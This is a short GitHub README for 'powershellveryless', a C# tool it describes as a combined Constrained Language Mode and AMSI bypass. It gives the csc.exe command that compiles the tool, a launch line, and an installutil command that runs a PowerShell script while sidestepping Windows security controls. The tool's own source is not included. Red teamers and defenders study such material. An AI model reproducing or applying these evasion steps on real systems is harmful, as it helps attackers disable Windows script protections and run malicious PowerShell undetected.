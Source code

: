 # powershellveryless
== Constrained Language Mode + AMSI bypass all in one ==<br /><br />
Quick & dirty (and very simple) CL + AMSI bypass using C#<br />
Compile it (https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/): 
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /reference: C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\system.management.automation.dll 
/out:c:\setup\powershellveryless.exe c:\scripts\powershellveryless.cs
```
<br />
 Launch it: powerhsellveryless.exe (your_ps1_sript)
 <br />
powershellveryless_2.cs: "installutil" version <br />

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil  /logfile= /LogToConsole=false /ScriptName=(ps1) /U (exefile)

